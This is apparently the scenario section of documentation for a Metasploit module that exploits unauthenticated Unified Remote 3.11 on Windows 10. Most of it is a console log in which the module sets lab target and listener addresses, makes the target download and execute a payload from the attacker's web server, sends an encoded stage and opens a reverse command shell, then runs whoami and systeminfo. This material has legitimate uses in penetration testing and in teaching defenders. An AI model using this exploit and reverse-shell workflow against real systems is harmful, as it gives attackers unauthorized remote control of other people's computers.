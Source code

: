 ## Scenarios

### Version 3.11.0.2483 on Windows 10, No authentication

```
resource (unified.rb)> use exploits/windows/misc/unified_remote_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (unified.rb)> set rhosts 192.168.2.95
rhosts => 192.168.2.95
resource (unified.rb)> set lhost 192.168.2.199
lhost => 192.168.2.199
resource (unified.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/unified_remote_rce) > exploit

[*] Started reverse TCP handler on 192.168.2.199:4444 
[*] 192.168.2.95:9512 - Client name set to: android-s5IbpVuRf1MJzqRs
[*] 192.168.2.95:9512 - Retrieving server config
[+] 192.168.2.95:9512 - No security enabled
[+] 192.168.2.95:9512 - Found account: admin
[+] 192.168.2.95:9512 - Found account: wheres
[*] 192.168.2.95:9512 - Sending handshake part 1
[*] 192.168.2.95:9512 - Sending handshake part 2
[*] 192.168.2.95:9512 - Opening Start Menu
[*] 192.168.2.95:9512 - Opening command prompt
[*] 192.168.2.95:9512 - Typing out payload
[*] 192.168.2.95:9512 - Using URL: http://192.168.2.199:8080/
[*] 192.168.2.95:9512 - Attempting to pull down payload
[*] 192.168.2.95:9512 - Attempting to open payload
[+] 192.168.2.95:9512 - Payload request received, sending 73802 bytes of payload for staging
[+] 192.168.2.95:9512 - Payload request received, sending 73802 bytes of payload for staging
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.2.95
[*] Command shell session 1 opened (192.168.2.199:4444 -> 192.168.2.95:59233) at 2022-09-08 16:47:20 -0400
[*] 192.168.2.95:9512 - Server stopped.
[!] 192.168.2.95:9512 - This exploit may require manual cleanup of 'c:\Windows\Temp\jhy5cTqRs.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>whoami
whoami
win10prolicense\windows

C:\Users\windows>systeminfo
systeminfo

Host Name:                 WIN10PROLICENSE
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.16299 N/A Build 16299
```
